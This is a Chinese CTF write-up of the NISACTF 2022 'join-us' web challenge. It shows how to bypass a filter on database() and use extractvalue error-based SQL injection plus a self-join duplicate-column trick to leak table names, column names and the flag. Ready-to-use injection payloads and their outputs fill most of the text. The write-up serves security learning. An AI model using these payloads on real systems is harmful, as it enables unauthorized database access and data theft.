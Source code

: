# [NISACTF 2022]join-us 无列名注入 过滤database() 报错获取表名 字段名

[mysql注入可报错时爆表名、字段名、库名 – Wupco's Blog](http://www.wupco.cn/?p=4117) 

又是sql注入

来做一些吧 这里我们可以很快就获取注入点



<img src="https://i-blog.csdnimg.cn/blog_migrate/22b097d615c5196a73e78aaa7ae7ff58.png" alt="" style="max-height:242px; box-sizing:content-box;" />


抓包开干



<img src="https://i-blog.csdnimg.cn/blog_migrate/32daf2737f11d80a64652f7fc160f10e.png" alt="" style="max-height:383px; box-sizing:content-box;" />


开fuzz



<img src="https://i-blog.csdnimg.cn/blog_migrate/b1f30670a3fdf4e2d832032c919131be.png" alt="" style="max-height:305px; box-sizing:content-box;" />


过滤很多东西哦 database都过滤了  那么要咋弄啊。。。

## 绕过database()

这里其实我们可以通过报错来实现

```matlab
1'|a()%23
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/91b0a426b658005d866c6a8716e68dfe.png" alt="" style="max-height:406px; box-sizing:content-box;" />


数据库名这不就来了

然后我们就可以开始查了

在fuzz的时候



<img src="https://i-blog.csdnimg.cn/blog_migrate/744699d99dfc01f5fb86ee5cea6d0cf5.png" alt="" style="max-height:132px; box-sizing:content-box;" />


发现extractvalue没有过滤 那么这不就来了 报错注入 启动！



<img src="https://i-blog.csdnimg.cn/blog_migrate/51f117348793e00fc31ef057db2975bd.png" alt="" style="max-height:383px; box-sizing:content-box;" />


开冲

```cobol
1'||extractvalue(1,0x7e)#

报表

1'||extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema like 'sqlsql')))#
 
XPATH syntax error: '~Fal_flag,output'
 
 
1'||extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name like 'sqlsql')))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/33445ab808e01702395835ba0a73730c.png" alt="" style="max-height:398px; box-sizing:content-box;" />


捏妈 裂开 才启动一下就停止了

起码得到表了

现在我们就要想如何获取字段呢

现在就是开头那篇文章的用法了

介绍一下吧

```cobol
select * from (SELECT * from admin a JOIN admin b)as c
```

这里就会爆出 第一个字段

<img src="https://i-blog.csdnimg.cn/blog_migrate/08dd1d2b33e8b34719c9e718b3f09571.png" alt="" style="max-height:125px; box-sizing:content-box;" />


然后通过using 指定id 就可以爆出下一个



<img src="https://i-blog.csdnimg.cn/blog_migrate/4f9f64542ea1457f322c4c4d627bccf7.png" alt="" style="max-height:619px; box-sizing:content-box;" />


这样这道题不是就简单了

```cobol
tt=1'||extractvalue(1,concat(0x7e,(select * from (select * from Fal_flag a join Fal_flag b using(id,data)) c)))#

Duplicate column name 'i_tell_u_this_is_Fal(se)_flag_is_in_another'

发现不是这个

那么就去爆另一个吧


tt=1'||extractvalue(1,concat(0x7e,(select * from (select * from output a join output b using(data)) c)))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5cb18c8df8dff1c2bc0aa88b1e39c06b.png" alt="" style="max-height:375px; box-sizing:content-box;" />


出来了耶 然后我们正常mid截取即可

```lisp
tt=1'||extractvalue(1,concat(0x7e,mid((select data from output),1,30)))#
```

这里学到了很多耶 报错什么的
